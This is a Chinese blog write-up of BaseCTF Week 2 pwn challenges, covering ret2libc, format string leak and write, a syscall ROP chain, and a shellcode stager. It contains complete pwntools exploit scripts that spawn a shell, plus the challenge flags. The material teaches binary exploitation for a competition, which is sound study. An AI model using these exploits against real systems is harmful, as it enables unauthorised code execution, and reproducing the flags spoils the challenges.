



BaseCTF新生赛，尝试做做PWN题

<!-- more -->

## 前言

尝试继续做做Pwn题

### 1. [Week2] 她与你皆失

这里给了我们两个文件，一个是可执行程序，另一个是libc

很明显应该就是libc的题目

checksec先,这里我把文件名字改成了 **lost**:

<div align=center></div>

64位文件，ida看看main函数伪代码：

<div align=center></div>

看了下buf内部，发现很明显可以栈溢出的。而问题就在于没有后门函数来给我们使用，也没有/bin/sh这样的命令

既然给了libc，那么libc里面应该就含有我们要的后门函数。所以通过获取**libc基址**，**再加上偏移量来计算出后门函数的真实地址进行利用即可**

而想要获取**libc基址**，就要先**暴露出某一个函数的真实地址，再减去该函数的偏移地址，即可得出libc基址**

千千万万要记住这个公式：**A真实地址-A的偏移地址 = B真实地址-B的偏移地址 = 基地址**

这里mian函数里有**puts**函数，就是最常见的用来暴露某函数真实地址的方法，就是通过puts函数来暴露

这里我直接给出exp，然后详细的解释一下每一步是什么意思。

exp如下：<div align=center></div>

现在开始解释exp：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux') #64位文件
#io=remote("challenge.basectf.fun",28242) #远程连接
io=process('./lost') #本地连接
elf=ELF('./lost') #确定要运行的可执行程序，并解析，用elf表示
libc= ELF('./libc.so.6') #确定ibc库并解析，用libc做变量名

#gdb.attach(io) #gdb调试，打不打看看情况
main_addr = elf.symbols['main'] #获取可执行程序中main的函数地址
puts_plt = elf.plt['puts'] #获取可执行程序中puts函数的plt表的地址，plt表地址作用等效于该函数的地址
puts_got = elf.got['puts'] #获取可执行程序中puts函数的got表的地址，用来当作暴露真实地址的参数
# gadget addr #下面是gadget内容
pop_rdi=0x401176 #pop_rdi的地址
ret=0x40101a #ret的地址

io.recv() #如果程序前面有内容，先把前面的都接收了先
payload1 = b'a' * (0x0A+0x8) #填充buf的垃圾数据
payload1 += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr) 
#解释上句话，先用rdi的参数改为puts函数的真实地址(puts_got)
#再调用puts函数(puts_plt)，这时候puts会打印第一参数的地址（正好第一参数为puts_got）
#最后返回到main函数(main_addr)，重新执行这个程序。便于第二次发送payload
io.sendline(payload1) #第一次发送payload

#s = io.recv() #有时候接收puts真实函数的地址之前，会多接收其他的东西，我们要先用recv()过滤掉
puts_addr = u64(io.recv(6).ljust(8, b'\x00')) #接收puts函数的真实地址
print("get the real puts_addr:") #做一个记号，表示接收到了真实地址
print(hex(puts_addr)) #打印出真实地址看看是什么样

puts_libc_addr = libc.sym['puts'] #libc.sym[]用来获取函数偏移量，这里获取了puts函数偏移量
libc_base = puts_addr - puts_libc_addr #libc基址=A函数真实地址-A函数偏移地址
print("get the libc_base:") #做个记号，表示获得了libc基址
print(hex(libc_base)) #打印出基址看看

system_libc_addr = libc.sym['system'] #获取system函数的偏移地址
binsh_libc_addr = next(libc.search(b"/bin/sh")) #获取/bin/sh字符串的偏移地址
#binsh_libc_addr = libc.search(b'/bin/sh').__next__() #这里是另一种写法，和上面的效果一样
system_addr = libc_base+system_libc_addr #计算system函数的真实地址
binsh_addr = libc_base+binsh_libc_addr #计算/bin/sh字符串的真实地址
print(f'system_address:{system_addr} binsh_address:{binsh_addr}') #打印出这两个真实地址看看

payload2 = b'a' * (0xA+0x8) #填充buf的垃圾数据
payload2 += p64(pop_rdi)+p64(binsh_addr)+p64(ret)+p64(system_addr) #正常的栈溢出操作了，这里记得栈平衡
io.sendline(payload2) #第二次发送payload

io.interactive() #接管命令
```

这里要注意一下**本地libc版本和远程libc版本一不一致的问题**

具体可以参考一下我的另外几篇文章：

[为什么Pwn题要注意libc版本？](https://whitea133.github.io/%E4%B8%BA%E4%BB%80%E4%B9%88Pwn%E9%A2%98%E8%A6%81%E6%B3%A8%E6%84%8Flibc%E7%89%88%E6%9C%AC/)

[如何判断libc的版本呢？](https://whitea133.github.io/%E5%A6%82%E4%BD%95%E5%88%A4%E6%96%ADlibc%E7%9A%84%E7%89%88%E6%9C%AC/)

这里我提供另外一种exp写法，这个方法用了**LibcSearcher**这个python库

这个库的**使用前提**：**保证可执行程序使用的libc版本和远程靶机的版本一致(同就要通过patchelf来修改)**

使用这个**库的好处**：**不需要用到题目附件给的libc.so.6文件(以防万一附件真不给你libc.so.6)**

使用**LibcSearcher**库的exp如下：

exp如下：

<div align=center></div>

其实和第一种方法大同小异罢了

运行了一下，结果报错了。。。。说是找不到对应的libc版本，后来发现是**LibcSearcher**库的版本太低了，我就不更新了库，因为懒

<div align=center></div>

### 2. [Week2] format_string_level0

格式化字符串的题型

checksec一下，发现保护全开，64位的文件

ida反编译看一下：

<div align=center></div>

可以看到格式化字符串漏洞最常用的函数**prinf()**

因为read函数和printf函数的参数都是buf

所以利用read函数读入格式化字符串，然后利用prinf的格式化字符串漏洞暴露出flag就行

当然前提**是要找到flag与prinf函数格式化字符串后的第一个参数之间的距离**

用gdb动态调试找偏量

先跳到我们要的read函数这一步，随便输入几个参数,我这里是**aaaaaaaa**

<div align=center></div>

输入之后，继续`ni`下一步，一直到**printf函数之后的下一步**

<div align=center></div>

可以看到我们的**flag地址在栈上的第三个位置**

那么我们怎么计算flag与printf格式化字符串后的第一个参数之间的距离呢？

方法如下：

<div align=center></div>

这是64位系统储存参数的规律

**因为rdi是储存第一参数，即格式化字符串（不是格式化字符串之后的参数，别搞混）**，所以rdi我们不用看

忽略rdi后，就剩下**5个寄存器，若寄存器都存了参数，就到栈上来存参数了**。第一个格式化参数由rsi储存，以此类推。

所以我们计算偏移量：**偏移量 = 5 + flag在栈上的位次**

这里题目**flag的位次是3**，所以**偏移量就是 5 + 3 = 8**

所以我们构造格式化字符串为`%8$s`即可，**%s是暴露出字符串格式内容，8$是偏移量**

exp如下：

<div align=center></div>

运行结果如下:

<div align=center></div>

BaseCTF{47404485-888c-490f-93a9-6bc4b20877a3}

### 3. [Week2] format_string_level1

还是格式化字符串的题，这个题考的是格式化字符串任意地址写

checksec看了下，64位程序

IDA反编译看main函数：

<div align=center></div>

明显的格式化字符串漏洞。

本题的关键点，就是将**target**的值变成0之外的其他值，这样if语句可以执行了

点击**target**，发现是在bss段，可以进行写入，地址为0x4040B0

<div align=center></div>

gdp动态调试看看**格式化参数**位置，步骤和上一题一模一样

结果如下：

<div align=center></div>

可以看到我输入了**aaaaaaaa**，它出现在了栈上的第一个位置

用我们之前的计算方法，**5 + 1 = 6**

可以知道，**我们输入的字符串的偏移量是6**

因此我们构造exp如下:

<div align=center></div>

`%1c%7$n`表示在偏移量为7的位置上(`%数字$n`)，写入**1**这个数字（`%数字c`）

**注意一下我这里payload写的是**`%1c%7$na`，怎么多了个`a`?

**因为我们要每次保证输入的数据要为8的倍数**，所以要多填写一个字节的数据才到8字节，这里我填写的是`a`，**实际上其他任意字符都行**

**这里还有个问题，为什么我们求出来的是偏移量是6，却要在偏移量为7的位置写入数据？**

因为我们的最终的payload是`b'%1c%7$na' + p64(bss)`，很显然在栈中，`p64(bss)`的位置是在字符串`b'%1c%7$na'`的下一位，**所以我们要在偏移量为7的地方进行写入数据**

我们gdb动态调试看看就知道了：

<div align=center></div>

在执行printf函数前，下面栈的位置就是这样，很明显**target**（bss段）的位置处于字符串`%1c%7$na`的下面，符合我们的预期

再进行下一步：

<div align=center></div>

可以看到**target**的值成功地被写为**1**了，那么这道题就算搞定了

结果如下：

<div align=center></div>

BaseCTF{71559945-7685-4335-99b2-58142332ed97}

**注意：我还尝试将payload写为**`p64(bss) + b'%1c%6$na'`，**按照理论应该也能成功进行**

可实际上却出了问题：

<div align=center></div>

**可以看到我们printf()出来的数据(received)，比我们read()进去的数据(sent)少了大一段**

后来发现，这是**printf()函数的一个性质：00截断**。

**当printf函数()遇到00后，后面所有的数据都会截断，将不会输出出来**

### 4. [Week2] gift

checksec看到是64位程序

IDA反编译，看到主函数有gets函数，可以栈溢出

但是查找发现，程序没有后门函数，也没有/bin/sh字符串

想到题目叫做**gift**，那么很有可能就是要借助**gadget**进行一系列操作了

**用ROPgadget工具查一下gadget：**

`ROPgadget --binary 文件名 --only "pop|ret"`

~~`ROPgadget --binary 文件名 --only "syscall"`~~

**这里不要用ROPgadget查syscall指令了，因为用ROPgadget找出来的syscall，是不带ret的，不知道怎么回事**

**我这里建议用ropper查syscall; ret指令**:

`ropper --file 文件名 --search "syscall; ret"`

这里我还推荐另一种方法，使用IDA直接查syscall; ret指令：**直接在IDA按 alt+b , 搜 0f 05 c3**

在搜集完所有gadget后，解题思路就是利用栈溢出，通过syscall调用read函数，把`/bin/sh\x00`读入到`bss`段中，然后通过syscall调用execve函数，来获得权限

[Linux系统调用表(system call table)](https://blog.csdn.net/shuzishij/article/details/87005219)

exp如下：

<div align=center></div>

这道题我就不解释exp了，这一题和**Week1的彻底失去她**很像，只不过这道题用到了**syscall指令**

flag为: BaseCTF{87c5baec-bf41-4051-b723-d942df834b2d}

后面看了下WP，用了ROPgadget的一个一把梭命令：

`ROPgadget --binary 文件名 --ropchain`

官方WP如下：

```
from pwn import *
from struct import pack #要自己补充的
io=process('./pwn') 
p = b'' # 从这里开始就是从ROPgadget复制的

p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000419484) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000401f2f) # pop rdi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000047f2eb) # pop rdx ; pop rbx ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000401ce4) # syscall
payload=b'a'*(0x20+8)+p #到这里，填充垃圾数据要自己填充
io.recv()
io.sendline(payload)
io.interactive()
```
 
### 5. [Week2] shellcode_level1

这道题主要是看汇编语言的功底了。

ida看伪代码如下:

<div align=center></div>

read(0,buf.2ull)只能发送2字节的数据，不足以发送shellcode。这里后面还有一个指针跳转。

看看汇编代码具体是怎么写的：

<div align=center></div>

可以看到这里read函数把数据读取到buf地址后（即rsi参数的位置），又把rsi所寄存的值赋值给了rcx，到后面又call rcx.，调用了rcx所寄存的命令

这里如果我们rcx所寄存的命令是**汇编指令syscall**，因为前面又配置了rax=0,rdi=0,rsi=buf,rdi=0x500,则**汇编指令syscall**则等效于**read(0,buf,0x500)**

这时候我们填入shellcode，就不会出现字节容量不够的情况了。

gdb动态调试：

<div align=center></div>

可以看到调用rcx前，所有寄存器的配置都和我们预期的一样。

这里的RSI寄存器，寄存的值是回车，因为我输出了一个回车进去，如果我们输入的是汇编代码`asm('''syscall''')`，**call rcx就会等效于call read了 （因为RAX为0）**

**这里有一个问题，先看看我之前的exp（有问题的）**：

<div align=center></div>

运行exp后，看看我们的shellcode：

<div align=center></div>

gdb动态调试到call rcx里面看看：

<div align=center></div>

可以看到里面确确实实是调用了一个read函数，可是仔细看看下面的shellcode汇编代码，注意力惊人的小伙伴可以发现shellcode居然少了`push 0x68`

**原因目前我还不知道是为啥。**

后面看了下WP，WP的exp如下：

<div align=center></div>

WP的exp用`b 'aa'`把缺少的`push 0x68`所占的内存补充了（`push 0x68`占两字节）。**原理是啥我还不懂**，总之先记着，动态调试出问题了知道要这样调整就行

**一段时间后。。。。弄懂了原理**

**原因是rip在执行完syscall之后**，移动到了`0x7e950968f002 `,是`0x7e950968f000 + 2`**（也就是buf+2的地址）**，**所以我们要填充两个字节的垃圾数据，把rip对准我们shellcode的开头**

调整后，gdb再动态调试看看：

<div align=center></div>

**确实是缺少的shellcode回来了**

<mark>看来以后做题要先打印shellcode出来看看，不然有没有缺东西都不知道</mark>

**对了还有一个问题，就是一定要用** `send(asm('''syscall'''))` 

**！！！不要用sendline！！！，用sendline打不通。因为多了个换行符。read(0,buf,2ull)最多接收2字节的数据，汇编指令syscall正好两字节，再多个换行符的内存数据，就超过最大限度了，从而报错。**

最终的exp:

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

#io=remote("challenge.basectf.fun",47700)
io=process('./shellcode1')
elf=ELF('./shellcode1')

#gdb.attach(io,'b main')
shellcode = b'aa' + asm(shellcraft.sh()) #前面是补充缺少的两个字节
payload=shellcode
print(shellcode)
io.send(asm('''syscall''')) #一定要用send()
io.sendline(payload)

io.interactive()
```

flag为BaseCTF{411c97e7-7289-4c15-b0d5-0f5bf1cf39fe}

## 结语

shellcode的题，要先打印出看看shellcode是什么，防止因为缺少某一段指令使得shellcode不完整，而自己发现不了的情况

shellcode的题，发送syscall汇编指令，要用send()，不要用sendline()。因为sendline会多发送一个回车，从而使得传入的数据增大，如果题目对传入数据有限制的话，就会出问题了。
